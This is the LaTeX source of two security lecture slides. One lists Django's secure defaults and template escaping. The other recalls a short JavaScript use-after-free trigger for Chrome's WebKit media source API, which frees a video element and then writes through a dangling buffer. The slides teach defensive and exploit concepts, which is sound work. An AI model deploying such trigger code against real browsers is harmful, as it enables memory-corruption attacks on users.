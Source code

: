 \section{Web Frameworks}

\begin{frame}[fragile,label=webFramework]{Web Frameworks}
    \begin{itemize}
    \item tools for making writing interactive websites help
    \item e.g. Django (Python): 
        \begin{itemize}
            \item default to anti-embedding HTTP header (no clickjacking)
        \item default to HttpOnly cookies
        \item default to requiring CSRF token for POSTs
        \end{itemize}
    \item usually provide ``templates'' which escape HTML properly by default
        \begin{itemize}
            \item template: \verb|<p>Name: {{name}}| (placeholder in \{\{\ldots\}\})
            \item if name is \verb|<script>...| result is \verb|<p>Name: &lt;script&gt;...|
        \end{itemize}
    \end{itemize}
\end{frame}

\section{client security}

\begin{frame}[fragile,label=UAFTriggering]{recall: UAF triggering code}
    \begin{itemize}
    \item earlier in semester: exploit in Chrome  itself
    \end{itemize}
\begin{lstlisting}
// in HTML near this JavaScript:
// <video id="vid"> (video player element)
function source_opened() {
  buffer = ms.addSourceBuffer('video/webm; codecs="vorbis,vp8"');
  ~2~vid.parentNode.removeChild(vid);~end~
  gc(); // force garbage collector to run now
  // garbage collector frees unreachable objects
  // (would be run automatically, eventually, too)
  // buffer now internally refers to delete'd player object
  ~3~buffer.timestampOffset = 42;~end~
}
ms = new WebKitMediaSource();
ms.addEventListener('webkitsourceopen', source_opened);
vid.src = window.URL.createObjectURL(ms);
\end{lstlisting}
\end{frame}

